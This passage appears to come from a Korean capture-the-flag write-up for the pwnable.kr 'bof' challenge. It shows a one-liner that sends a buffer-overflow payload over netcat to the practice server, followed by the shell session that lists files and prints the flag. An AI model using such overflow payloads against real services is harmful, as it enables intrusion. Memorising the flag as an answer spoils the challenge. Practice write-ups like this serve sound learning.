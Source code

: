 페이로드 검증에 성공 하였다면 원격지 서버에 페이로드를 전송하여 플래그를 확인할 수 있다.

```bash
❯ (python2.7 -c 'print "A"*52 + "\xbe\xba\xfe\xca"' ; cat) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
super.pl
cat flag
daddy, I just pwned a buFFer :)
```
